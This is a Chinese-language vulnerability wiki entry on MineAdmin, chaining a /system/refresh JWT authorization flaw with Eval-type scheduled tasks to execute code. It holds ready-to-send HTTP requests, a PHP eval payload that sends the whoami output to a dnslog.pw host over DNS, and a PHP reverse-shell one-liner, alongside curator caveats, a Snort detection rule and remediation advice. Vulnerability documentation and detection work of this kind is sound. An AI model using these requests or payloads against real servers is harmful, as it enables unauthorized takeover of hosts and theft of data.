


# MineAdmin refresh鉴权缺陷到Eval定时任务执行链

## 条目说明

- 对象与具体问题：MineAdmin；refresh鉴权缺陷到Eval定时任务执行链
- 版本、配置及部署条件：v1.x/v2.x；API9501可变；type4管理员能力
- 认证与权限前提：伪造JWT前置未解释签名验证
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 只贴固定完整JWT不提供签名密钥/绕过根因，不能证明任意伪造可refresh
- 创建启用周期任务并手工run id2，未说明ID取自创建结果，也无清理，持续执行副作用
- DNS载荷外传whoami，不是纯回连；ping -n Windows与PHP/Linux前提需区别
- Snort pcre期待单引号shell_exec/system，但示例使用双引号，可能匹配不到本篇载荷
- 管理员Eval可能设计功能，主安全边界是refresh；需分别证明权限与代码执行漏洞

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

MineAdmin官网：https://doc.mineadmin.com/

资产测绘语法：body="MineAdmin"

## 影响版本

MineAdmin v1.x
MineAdmin v2.x

## **漏洞描述**

MineAdmin后台管理系统基于 Hyperf 框架开发。是一个后台权限管理系统，提供完善的权限体系，让开发者把注意力集中到具体业务当中，降低开发成本，提高项目效率。**此处逻辑漏洞和命令执行漏洞组合使用描述如下**：1、system/refresh处存在逻辑缺陷漏洞，”refresh”方法用于刷新 Token，攻击者可以未授权构造一个签名为超级管理员的 JWT，直接骗过系统，获取一个合法的、拥有管理员权限的新 Token。2、setting/crontab/save定时任务处存在命令执行漏洞，系统允许管理员（或通过上述逻辑缺陷漏洞获取管理员权限）创建定时任务。攻击者可以写入并执行任意 PHP 代码完全控制服务器。此系统前后端分离前端访问端口默认：8180 后端 默认API端口：9501 。该漏洞复现利用后端端口，实际环境可能会变，请自行判断。

## 漏洞复现

POC/EXP：利用system/refresh接口生成漏洞利用token

```http
POST /system/refresh HTTP/1.1
Host: 127.0.0.1:9501
Accept: application/json, text/plain, */*
Authorization: Bearer e***********************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************I
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh_CN
```


POC/EXP：添加恶意命令（此处用dnslog回显命令）

```
反弹shell语句是：eval('$s=stream_socket_client("tcp://127.0.0.1:7788");proc_open("/bin/sh -i", array(0=>$s,1=>$s,2=>$s),$p);'); 
```

```http
POST /setting/crontab/save HTTP/1.1
Host: 127.0.0.1:9501
Authorization: Bearer e***********************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************I
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: zh_CN

{"singleton":"2","status":"1","name":"test","type":"4","rule":"30 */5 * * * *","target":"eval('$user = shell_exec(\"whoami\"); system(\"ping -n 1 \" . trim($user) . \".5yzhle6v.dnslog.pw\");');"}
```

> 请求长度说明：原资料 Content-Length 为 141；静态长度已移除，应由客户端根据最终请求体的字节数生成。




POC/EXP：执行恶意命令

```http
POST /setting/crontab/run HTTP/1.1
Host: 127.0.0.1:9501
Authorization: Bearer e***********************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************I
Accept-Encoding: gzip, deflate
Accept-Language: zh_CN
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8

{"id":2}
```

> 请求长度说明：原资料 Content-Length 为 8；静态长度已移除，应由客户端根据最终请求体的字节数生成。




sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"MineAdmin - Remote Command Execution via /setting/crontab/save";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri; content:"/setting/crontab/save";
    http.header; content:"Authorization: Bearer";
    http.header; content:"Content-Type: application/json;charset=UTF-8";
    http.request_body; content:"\"target\":\"eval(";
    http.request_body; pcre:"/target\":\"eval\\('[^']*shell_exec\\('[^']*\\)[^']*system\\('[^']*dnslog\\.pw[^']*'/i";
    metadata:
        service http,
        affected_product "MineAdmin企业级后台管理系统",
        vulnerability_type "Remote Command Execution",
        severity "critical";
    classtype:web-application-attack;
    sid:1000580;
    rev:1;
    priority:1;
)
```

## 漏洞修复

1.增加白名单或黑名单校验，严禁创建 type=4(Eval) 的任务，除非绝对必要且经过严格审查。
2.部署waf进行恶意命令拦截。

3./system/refresh接口进行权限校验。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
